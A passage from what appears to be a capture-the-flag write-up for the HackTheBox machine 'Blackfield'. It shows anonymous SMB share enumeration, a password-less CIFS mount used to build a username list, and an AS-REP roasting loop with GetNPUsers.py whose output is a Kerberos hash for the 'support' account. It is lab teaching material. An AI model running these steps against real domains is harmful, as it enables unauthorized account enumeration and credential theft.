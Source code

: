                     7846143 blocks of size 4096. 3322639 blocks available



Trying to do a recursive `get` takes a while, and returns no files:



    smb: \> recurse on
    smb: \> prompt off
    smb: \> mget *
    smb: \>



While I can't access any files, this is an opportunity to create a list
of usernames. I'll mount the share on my local box (just hitting enter
when prompted for a password):



    root@kali# mount -t cifs //10.10.10.192/profiles$ /mnt
    Password for root@//10.10.10.192/profiles$: 



Now I'll use `-1` in `ls` to print only the directories one per line:



    root@kali# mv users users.old; ls -1 /mnt/ > users



## Access as support

### AS-REP Roast

Just like in [Forest](/htb-forest.md#as-rep-roasting), I
can check this list of users for any that have the
`UF_DONT_REQUIRE_PREAUTH` flag set to true. For those users, requesting
a Kerberos ticket will generate a hash that I can try to break with
brute force without my having any value user credentials on the domain.

I'll use `GetNPUsers.py` to test each user, and since I know that a
successful response will include a hash with `krb5asrep` in it, I'll
grep for that to see any successful results. It runs for a few minutes,
but finds a result:



    root@kali# for user in $(cat users); do GetNPUsers.py -no-pass -dc-ip 10.10.10.192 blackfield.local/$user | grep krb5asrep; done
    $krb5asrep$23$support@BLACKFIELD.LOCAL:83f252224f04becb3108d7234f0fcd94$0f355b4ad7b813039520ec6ed1f451575c79c313a3779707b24fd8824aa74d9d4fda352599ad767167ade44f4f6a67b6e0d54016e26502ab618b0d7791a40ffc60480703a1cd6bd5ae68078ab9589a91284966a54fc6134ae52f8efc41164386e4e251b41aa09f46616d53c103216d3c3e0560c5e822937ad3b4f61527c9d4fb63664abd2888d2c379340baf682a38491978c9e63d151fc54725e969df94a34f996849c439ff6953a5c9747774d6878ff5555b8c6af1415ec3c141206c460f2d4949456f429d766072d0d348b30d642e521b14cf9cef4bc8d01da69bd3995b4019ee5bbbb024346ea7786474980ec6b1bb9d13c0



### Crack Hash
